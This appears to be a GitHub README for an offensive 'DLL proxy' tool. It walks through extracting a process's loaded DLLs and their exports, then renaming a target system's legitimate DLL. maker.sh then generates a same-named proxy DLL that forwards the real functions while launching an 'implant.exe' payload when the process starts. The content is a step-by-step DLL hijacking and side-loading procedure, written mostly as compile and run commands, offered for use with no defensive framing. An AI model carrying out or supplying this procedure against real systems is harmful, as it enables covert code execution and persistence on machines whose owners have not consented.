

# Custom DLL Proxy 

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp** : Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp** : Extracts the exported functions from DLL.

- **maker.sh** : Adds the extracted functions into a template for creating a fake (proxy) DLL.

***Why I Built This DLL Proxy Tool***

I saw that many tools perform all the steps automatically, without giving the user any real control or ability to make changes along the way.

# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```
**Step 3**  

Copy the extracted function names to file.txt.  
> expample file.txt
 


renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
```cmd
x86_64-w64-mingw32-g++ -shared -o example.dll output.cpp
```
After the process is launched,your payload will be executed.

---
**You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.**
